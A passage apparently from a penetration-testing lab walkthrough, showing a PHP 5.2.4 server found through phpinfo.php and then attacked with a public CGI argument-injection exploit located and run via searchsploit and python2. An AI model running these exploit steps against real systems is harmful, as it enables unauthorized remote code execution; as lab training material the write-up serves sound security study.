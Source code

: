 - Try to browse
  - `http://10.2.20.205/phpinfo.php`

```bash
PHP Version 5.2.4-2ubuntu5.10
```

![](assets/image-20230424150110254.png)

#### Manual/Script Exploitation

- Find an exploit

```bash
searchsploit php cgi
	PHP < 5.3.12 / < 5.4.2 - CGI Argument Injection | php/remote/18836.py
searchsploit -m 18836
python2 18836.py 10.2.20.205 80
# It executes
```
